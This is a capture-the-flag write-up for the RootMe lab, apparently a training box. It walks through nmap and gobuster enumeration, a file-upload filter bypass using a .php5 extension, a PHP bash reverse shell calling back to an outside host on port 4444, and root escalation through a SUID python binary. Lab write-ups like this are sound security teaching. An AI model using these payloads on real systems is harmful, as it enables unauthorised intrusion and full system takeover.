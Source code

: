 # RootMe -- CTF Writeup -- File Upload Exploit, Reverse Shell, and Privilege Escalation

## Nmap Scan

```bash
nmap -sS 10.10.183.212
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Service Enumeration

```bash
nmap -sC -sV -p 22,80 10.10.183.212
```
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
```

> ⚠️ Note: Although the server reports Apache `2.4.41`, the challenge expects version `2.4.29`.

## Directory Enumeration

```bash
gobuster dir -u http://10.10.183.212 -w /usr/share/wordlists/dirb/common.txt
```
```
/.hta                 (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/css                  (Status: 301) --> /css/
/index.php            (Status: 200)
/js                   (Status: 301) --> /js/
/panel                (Status: 301) --> /panel/
/server-status        (Status: 403)
/uploads              (Status: 301) --> /uploads/
```

Discovered `/panel/` which allows file uploads.

## Initial Foothold - File Upload Bypass

The server blocks `.php` uploads, but allows alternate PHP extensions (`.php5`, `.phtml`).

### Reverse Shell Payload

`shell.php5`:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.201.59.141/4444 0>&1'"); ?>
```

### Listener

```bash
nc -lvnp 4444
```

Accessing `http://10.10.183.212/uploads/shell.php5` triggers a reverse shell.

```
Connection received on 10.10.183.212 59852
```

## User Flag

```bash
find / -type f -name "user.txt" 2>/dev/null
cat /var/www/user.txt
```
```
*flag value*
```

## Privilege Escalation

Upgrade shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Check for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```
Found `/usr/bin/python2.7` with SUID.

Exploit via GTFOBins:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## Root Flag

```bash
find / -type f -name "root.txt" 2>/dev/null
cat /root/root.txt
```
```
*flag value*
```
